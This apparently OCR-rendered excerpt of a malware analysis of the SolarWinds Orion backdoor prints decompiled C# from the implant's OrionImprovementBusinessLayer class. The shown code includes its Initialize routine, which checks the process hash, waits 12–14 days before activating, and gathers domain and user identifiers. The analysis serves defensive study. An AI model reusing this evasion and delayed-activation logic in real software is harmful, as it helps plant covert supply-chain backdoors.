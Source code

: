 ```C#
    catch (Exception ex)
    {
    }
    if (this.backgroundInventory.IsRunning)
    {
    InventoryManager.log.Info((object) "Skipping background backgroundInventory check, still running");
    }
    else
    {
    this.QueueInventoryTasksFromNodeSettings();
    this.QueueInventoryTasksFromInventorySettings();
    if (this.backgroundInventory.QueueSize <= 0)
        return;
    this.backgroundInventory.Start();
    }
}
```
## 2.2. Backdoor Class

Class: `SolarWinds.Orion.Core.BusinessLayer.OrionImprovementBusinessLayer`
### 2.2.1. Constructor

The constructor will set variable (Hash and encode strings).

### 2.2.2. Initialize

Full code:

```C#
if (OrionImprovementBusinessLayer.GetHash(Process.GetCurrentProcess().ProcessName.ToLower()) != 17291806236368054941UL || DateTime.Now.CompareTo(System.IO.File.GetLastWriteTime(Assembly.GetExecutingAssembly().Location).AddHours((double) new Random().Next(288, 336))) < 0)
    return;
OrionImprovementBusinessLayer.instance = new NamedPipeServerStream(OrionImprovementBusinessLayer.appId);
OrionImprovementBusinessLayer.ConfigManager.ReadReportStatus(out OrionImprovementBusinessLayer.status);
if (OrionImprovementBusinessLayer.status == OrionImprovementBusinessLayer.ReportStatus.Truncate)
    return;
OrionImprovementBusinessLayer.DelayMin(0, 0);
OrionImprovementBusinessLayer.domain4 = IPGlobalProperties.GetIPGlobalProperties().DomainName;
if (string.IsNullOrEmpty(OrionImprovementBusinessLayer.domain4) || OrionImprovementBusinessLayer.IsNullOrInvalidName(OrionImprovementBusinessLayer.domain4))
    return;
OrionImprovementBusinessLayer.DelayMin(0, 0);
if (!OrionImprovementBusinessLayer.GetOrCreateUserID(out OrionImprovementBusinessLayer.userId))
    return;
OrionImprovementBusinessLayer.DelayMin(0, 0);
OrionImprovementBusinessLayer.ConfigManager.ReadServiceStatus(false);
OrionImprovementBusinessLayer.Update();
OrionImprovementBusinessLayer.instance.Close();
```

